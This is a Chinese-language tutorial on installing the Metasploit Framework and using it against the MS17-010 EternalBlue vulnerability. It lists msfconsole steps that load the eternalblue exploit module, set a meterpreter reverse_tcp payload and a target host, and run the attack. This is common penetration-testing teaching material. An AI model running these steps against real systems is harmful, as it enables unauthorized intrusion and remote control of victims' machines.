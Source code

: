 ## Metasploit

Metasploit Framework(MSF)是一款开源安全漏洞检测工具，附带数千个已知的软件漏洞，并保持持续更新。Metasploit可以用来信息收集、漏洞探测、漏洞利用等渗透测试的全流程，被安全社区冠以“可以黑掉整个宇宙”之名。刚开始的Metasploit是采用Perl语言编写的，但是再后来的新版中，改成了用Ruby语言编写的了。在kali中，自带了Metasploit工具。我们接下来以大名鼎鼎的永恒之蓝MS17_010漏洞为切入点，讲解MSF框架的使用。

**MSF的更新****：**msfupdate

![](https://p3.ssl.qhimg.com/t01ee3308ff1297b30f.png)

## Metasploit的安装和升级

在一般的linux中，默认是不安装MSF的。以下是在非kali的Linux下安装MSF框架。

**一键安装**

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall   
adduser msf           #添加msf用户
su msf                #切换到msf用户
cd  /opt/metasploit-framework/bin   #切换到msf所在的目录 
./msfconsole          #以后启动msfconsole，都切换到msf用户下启动，这样会同步数据库。如果使用root用户启动的话，不会同步数据库  
​
也可以将msfconsole加入到执行目录下，这样在任何目录直接msfconsole就可以了
ln -s /opt/metasploit-framework/bin/msfconsole /usr/bin/msfconsole
​
#备注：
#初次运行msf会创建数据库，但是msf默认使用的PostgreSQL数据库不能与root用户关联，这也这也就是需要新建用户msf来运行metasploit的原因所在。如果你一不小心手一抖，初次运行是在root用户下，请使用 msfdb reinit 命令，然后使用非root用户初始化数据库。        
​
MSF后期的升级：msfupdate
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

**使用方法：**

·  进入框架：msfconsole

·  使用search命令查找相关漏洞： search ms17-010

·  使用use进入模块: use exploit/windows/smb/ms17_010_eternalblue

·  使用info查看模块信息： info

·  设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp

·  查看模块需要配置的参数：show options

·  设置参数：set RHOST 192.168.125.138

·  攻击：exploit / run

·  后渗透阶段

不同的攻击用到的步骤也不一样，这不是一成不变的，需要灵活使用。
